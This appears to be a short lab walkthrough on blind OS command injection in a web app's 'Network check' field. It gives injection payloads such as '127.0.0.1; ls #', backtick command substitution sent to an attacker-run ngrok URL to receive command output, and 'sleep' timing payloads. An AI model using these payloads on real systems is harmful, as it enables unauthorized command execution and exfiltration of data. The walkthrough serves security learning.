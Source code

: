 
## **Overview**

This vulnerability do not provide immediate or direct feedback to the attacker about the success or failure of their malicious actions. In other words, the attacker is "blind" to the results of their actions because they do not receive immediate feedback or error messages that would typically indicate whether their attack was successful or not.


## **Practicals**


- Testing out our first payload `127.0.0.1; ls #` we can see that our `;` is been filtered out and we don't have results 


![](https://i.imgur.com/Ke3g2zP.png)


- Start up `Ngrok` with 

```bash
$ ngrok http 80
```

- Navigate back to our website and paste in your **ngrok** link

![](https://i.imgur.com/uso5sve.png)

- Now copy your ngrok link again, navigate to our website and paste in the link in the **Network check** bar as follow and click submit:

```
https://14f0-2c0f-f5c0-600-338b-fc7-aa19-f5d5-d3a.ngrok-free.app?`COMMAND-GOES-HERE`
```

![](https://i.imgur.com/LnDUrOf.png)

- Navigate to the web interface of `ngrok` and our command should have been executed

![](https://i.imgur.com/wjpLyvn.png)


![](https://i.imgur.com/9hBTOMo.png)

> **Note :** we can also use the the `sleep` command to check if we have blind Command injection
>  
```HTML
# web-app will sleep for 10 seconds
https://tcm-sec.com?`sleep 10`

# web-app will sleep for 25 seconds
https://tcm-sec.com?`sleep 25`
```

